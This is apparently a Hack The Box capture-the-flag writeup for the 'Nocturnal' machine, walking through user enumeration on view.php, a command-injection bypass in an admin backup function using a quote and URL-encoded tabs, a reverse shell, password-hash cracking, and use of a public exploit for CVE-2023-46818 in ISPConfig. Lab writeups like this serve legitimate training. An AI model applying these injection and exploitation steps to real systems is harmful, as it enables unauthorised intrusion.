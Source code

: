```yaml
---
title: HTB Nocturnal - Writeup
date: 2025-05-20 20:00:00 +0330
categories: [Writeup]
tags: [cve]
description: My writeup of Nocturnal from Hack The Box 

---
```


![](assets/img/nocturnal.png)

## - **Recon & Enum**
Starting with an Nmap scan.
```shell
$ nmap -sC -sV -oN noc_nmap --min-rate=100 -p- 10.10.11.64
```
```
Nmap scan report for 10.10.11.64
Host is up (0.96s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

In the site, we can upload and view files. While trying to upload a webshell as a pdf file, I noticed the username argument in the url and decided to look for other users using Burp.
![](assets/img/nocturnal_titap.png)
And right off the bat we get `admin` but there was nothing in it.
![](assets/img/nocturnal_intruder.png)
The inturder was really slow so I used gobuster instead.
```shell
$ gobuster fuzz -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u "http://nocturnal.htb/view.php?username=FUZZ&file=test.pdf" -c "PHPSESSID=dd19n8u36nj5l1va4usr86424v" --exclude-length 2985
```
and we got users `amanda` and `tobias`, amanda had an `.odt` file, checked all files and there was a note in `content.xml` which contained a password `arHkG7HAI68X8s1J`. First I tried SSH but no, so logged in th esite as amanda and there an admin panel.  
## - **Foothold**
Now there was this interesting create backup thingy which took a password as input and zipped the files. Also I tried to see if there is any LFI because of the view file content section, though used it to see how does the zipping function actually work so we can bypass it and inject commands.
![](assets/img/nocturnal_function.png)

so just by inserting a doublequote `"` at the beginning, we can execute commands. As you can see in the admin.php file, some characters including white space are blacklisted. so I used URL encoded tab character `%09` instead, and we got `/etc/passwd`.

![](assets/img/nocturnal_passwd.png)

Because of the character blacklisting, it is a bit hard to directly run a reverse shell, so I'll upload a python reverse shell payload as amanda and execute that to get a shell.

![](assets/img/nocturnal_noc.png)
```
listening on [any] 7070 ...
connect to [*.*.*.*] from (UNKNOWN) [10.10.11.64] 36328
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@nocturnal:~/nocturnal.htb$
```
## - **User**
While I was veiwing file contents in admin panel, in the `view.php` I saw a `.db` file, navigated to the directory and opened it with sqlite3.
```
sqlite> select * from users;
select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
...
```
Using hashcat, I was able to crack `tobias`'s password
```
$ hashcat --show hash.txt -m 0
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```
and we get the user flag.
```
tobias@nocturnal:~$ cat user.txt
b72f452*****************ea70cddd
```
## - **Root**
Our good boy toby can't use sudo, but after checking around I discovered port 8080 is open localy and forwarded back to myself. Scanned it with nmap and it's an http proxy, and when tried going to Nocturnal.htb through the proxy, I found an ISPconfig login page. Tried some default usernames and passwords and the passwords we had found, `admin`:`slowmotionapocalypse` got me in.  
There wasn't much in the panel itself, but after getting the version `3.2.10p1` and looking it up, I discovered a vulnerability `CVE-2023-46818` and I used this [POC](https://github.com/ajdumanhug/CVE-2023-46818).
```
$ python3 exploit.py http://localhost:8080/ admin slowmotionapocalypse
[+] Target URL: http://localhost:8080/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell#
```

![](assets/img/nocturnal_congrats.png)